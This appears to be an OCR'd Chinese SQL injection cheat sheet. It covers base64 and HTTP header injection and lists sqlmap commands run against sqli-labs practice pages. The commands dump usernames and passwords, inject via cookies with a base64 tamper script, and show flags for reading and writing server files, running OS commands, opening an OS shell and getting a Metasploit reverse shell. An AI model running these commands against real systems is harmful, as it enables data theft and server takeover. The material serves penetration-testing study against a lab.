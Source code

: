 ##### base64注入

和其他注入一样，多了个base64编码解码

##### http头部注入

- X-Forwarded-for注入
- referer注入
- User-Agent注入

##### Sqlmap注入

```sql
/*union、报错、堆叠注入*/
sqlmap.py -u "ip/?id=1" --batch -D security -T users -C id,password,username -dump

#手注步骤和其他的一样，不过要把每次的payload进行一次base64编码，注意--+需要特殊符号编码
sqlmap.py -u "http://192.168.234.139/sqli-labs/Less-22/index.php" --cookie "uname=YWRtaW4=" --tamper base64encode.py --level 2  --batch --dbs

# cookie注入
sqlmap.py -u "http://192.168.234.139/sqli-labs/Less-20/index.php" --cookie "uname=admin" --level 2 --batch -D security -T emails -C id,email_id -dump

#http头部注入
# 在包数据对应位置标注*
sqlmap.py -r 1.txt -batch -dbs

--sql-shell    #执行指定sql命令
--file-read    #读取指定文件
--file-write   #写入本地文件(--file-write /test/test.txt --file-dest /var/www/html/1.txt;将本地的test.txt文件写入到目标的1.txt)
--file-dest    #要写入的文件绝对路径
--os-cmd=id    #执行系统命令
--os-shell     #系统交互shell
--os-pwn       #反弹shell(--os-pwn --msf-path=/opt/framework/msf3/)
--msf-path=    #matesploit绝对路径(--msf-path=/opt/framework/msf3/
123456789101112131415161718192021
```
